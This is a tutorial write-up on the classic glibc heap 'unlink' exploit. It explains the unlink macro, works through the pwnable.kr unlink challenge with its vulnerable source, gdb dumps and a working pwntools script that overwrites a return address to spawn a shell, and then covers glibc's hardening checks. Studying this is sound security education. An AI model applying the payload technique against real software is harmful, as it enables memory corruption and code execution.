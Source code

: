 # Unlink Exploit

The unlink exploit [Phrack \#57](http://www.phrack.org/issues/57/8.html#article)

In the unlink exploit, the goal is to exploit the following macro:

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");                              \
    FD = P->fd;                                                                      \
    BK = P->bk;                                                                      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr ("corrupted double-linked list");                              \
    else {                                                                      \
        FD->bk = BK;                                                              \
        BK->fd = FD;                                                              \
        if (!in_smallbin_range (chunksize_nomask (P))                              \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {                      \
            if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr ("corrupted double-linked list (not small)");   \
            if (FD->fd_nextsize == NULL) {                                      \
                if (P->fd_nextsize == P)                                      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;                      \
                else {                                                              \
                    FD->fd_nextsize = P->fd_nextsize;                              \
                    FD->bk_nextsize = P->bk_nextsize;                              \
                    P->fd_nextsize->bk_nextsize = FD;                              \
                    P->bk_nextsize->fd_nextsize = FD;                              \
                  }                                                              \
              } else {                                                              \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;                      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;                      \
              }                                                                      \
          }                                                                      \
      }                                                                              \
}
```

The unlink macro removes a chunk from a bin.  

```c
FD->bk = BK;                                                              \
BK->fd = FD;
```

#### Consolidate Backwards

glibc likes to keep the heap tidy, as I've been told, so if two adjacent chunks in memory are both free, why not merge them?  This action happens through the previous inuse bit set within a chunk.  If a chunk has it's previous inuse bit set, then it will consolidate them through the following action.

```c
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```

```c
    /* consolidate backward */
    // Is the previous chunk free?
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
       // add previous chunk size to current size
      size += prevsize;
       // move data pointer back to merge both chunks
       // i.e. change chunk pointer to point to current chunk
      p = chunk_at_offset(p, -((long) prevsize));
      // unlink from from the bin
      
      unlink(av, p, bck, fwd);
    }
```

This chunk is then placed within the unsorted chunk list, as it is given a chance to be re-allocated before being placed in a regular bin, but that's not as important to the crux of the exploit.  

## Example 1: pwnable.kr

This used to be much easier to exploit, but due to glibc hardening it's much more difficult.  Firstly, I'll walk through an example from pwnable.kr which will allow us to demonstrate the prior behaviour.  This implements a custom unlink method.  Since this doesn't contain the hardening done by glibc, it makes it much easier to show how this was done originally. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

We have the stack and heap addresses, so ASLR is no longer an issue.  In this the data being passed into A is not bounds checked, so we need to write a fake chunk into A, and overwrite the fd and bk pointers in B.  

```text
(gdb) r
Starting program: /home/unlink/unlink 
here is stack address leak: 0xffb07fe4
here is heap address leak: 0x91ae410
now that you have leaks, get shell!
```

```text
(gdb) p shell
$2 = {<text variable, no debug info>} 0x80484eb <shell>
```

```text
(gdb) x/6x 0x91ae410   <==== A
0x91ae410:	0x091ae428	0x00000000	0x00000000	0x00000000
0x91ae420:	0x00000000	0x00000019
(gdb) x/6x 0x91ae410+4*6 <====== B
0x91ae428:	0x091ae440	0x091ae410	0x00000000	0x00000000
0x91ae438:	0x00000000	0x00000019
```

Since it exits immediately after we're going to want to overwrite eip, which we can calculate from the stack leak.

We only need to do a 4-byte overwrite into the B struct as we'll just overwrite fwd

```text
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

By overwriting fd with EIP:

```text
FD->bk=BK;
BK->fd=FD;
```

So we need to write to fill the current allocation plus 4 bytes which will be the address of EBP-4.

```python
from pwn import *
s=ssh(host='pwnable.kr' ,port=2222,  user='unlink', password='guest')

r = s.process('./unlink')
r.recvuntil(' stack address leak: ')
stack = r.recvline()
r.recvuntil(' heap address leak: ')
heap = r.recvline()

print stack
print heap

ebp = int(stack, 0) - 0x20
heap = int(heap,0)
shell = 0x80484eb

payload = p32(shell)
payload += p32(heap+12)
payload += p32(0x19)
payload += p32(0x19)
payload += p32(ebp) #fd
payload += p32(heap+16) #bk

r.sendafter(' get shell!', payload)
r.interactive()
```

## Modern Hardening Measures

These protections can be bypassed but only in very specific circumstances, so it's very difficult to give a list of bypasses.  In effect, you need to ensure that you can write memory in such a way that these checks are bypassed, as effectively they are just two integer comparisons.

### corrupted\_size vs prev\_size

The following code checks the integrity of the chunk:

```c
chunksize(P) != prev_size (next_chunk(P))
```

This is not a major issue in the case of forging chunks, but if given a single null-byte overwrite it can interfere with any attempts to create an unlink-exploit.

### corrupted double-linked list

```text
FD->bk != P || BK->fd != P
```

A basic integrity check to ensure that the double-linked list structure is intact.  This again means you can't perform an arbitrary write-what, where.





